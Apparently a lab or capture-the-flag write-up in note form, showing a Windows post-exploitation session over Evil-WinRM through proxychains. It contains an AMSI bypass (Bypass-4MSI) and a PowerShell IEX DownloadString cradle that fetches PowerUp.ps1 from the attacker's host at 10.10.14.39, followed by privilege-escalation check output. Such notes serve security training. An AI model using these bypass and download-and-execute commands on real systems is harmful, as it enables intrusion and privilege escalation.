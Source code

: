 - `have to first bypass AMSI`
```powershell
*Evil-WinRM* PS C:\Users\joe\Documents> menu
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\joe\Documents> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
```

- `host python server to be able to invoke powerup`
```bash
[root💀/opt/PowerSploit/Privesc] [10.10.14.39] [2023-08-09 12:36:00] 
 └─╼ # python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- `ran PowerUp.ps1, still got errors but it ended up working`
- `two commands were ran:
	- `IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/PowerUp.ps1'))
	- `invoke-allchecks`
```powershell
*Evil-WinRM* PS C:\Users\joe\Documents> IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.39:8000/PowerUp.ps1'))
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
*Evil-WinRM* PS C:\Users\joe\Documents> invoke-allchecks
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:9050  ...  172.16.1.201:5985  ...  OK
Access denied 
At line:2066 char:21
+     $VulnServices = Get-WmiObject -Class win32_service | Where-Object ...
+                     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Get-WmiObject], ManagementException
    + FullyQualifiedErrorId : GetWMIManagementException,Microsoft.PowerShell.Commands.GetWmiObjectCommand
Access denied 
At line:2133 char:5
+     Get-WMIObject -Class win32_service | Where-Object {$_ -and $_.pat ...
```